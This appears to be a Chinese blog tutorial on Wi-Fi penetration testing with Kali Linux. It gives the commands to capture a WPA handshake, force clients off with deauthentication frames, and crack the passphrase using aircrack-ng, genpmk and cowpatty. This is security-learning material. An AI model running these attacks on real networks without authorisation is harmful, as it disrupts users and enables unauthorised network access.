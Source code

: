 ```yaml
---
layout: mypost
title:  Kali linux无线网络渗透测试
categories: [Linux,wlan]
---
```


所需工具：带监听模式的无线网卡、Kali linux虚拟机

**查看无线接口：**

```
iwconfig
```

**激活无线接口：**

```
ifconfig wlan0 up
```

**创建监听模式接口：**

```
airmon-ng start wlan0
```

如果提示先终止相关进程，则先运行：

```
airmon-ng check kill
```

再运行：

```
airmon-ng start wlan0
```

**扫描无线网络：**

```
airodump-ng wlan0mon
```

记下要渗透的AP的SSID、MAC和信道。

**抓取握手包：**

开启抓包，将包文件命名为test存入本地：

```
airodump-ng --bssid 00:00:00:00:00:D0 --channel 1 --write test wlan0mon
```

等待片刻，记下STATION栏下客户端的MAC。

在终端上新建标签，运行解除认证命令：

```
aireplay-ng -0 5 -a 00:00:00:00:00:D0 -c 00:00:00:00:00:D7 wlan0mon --ignore-negative-one
```

当先前标签右上角显示WPA handshake:时终止运行。

**破解密码：**

```
aircrack-ng -w zidian.lst test-01.cap
```

附：使用预先计算PSK来加快破解速度：

针对给定的字典名和SSID来预先计算PMK：

```
genpmk -f zidian.lst -d test2 -s "cisco"
```

生成名为test2的文件，其中包含了预先生成的PMK。

如果提示未找到命令 可先安装cowpatty：

```
apt-get install cowpatty
```

使用cowpatty破解密码：

```
cowpatty -d test2 -s "cisco" -r test-01.cap
```

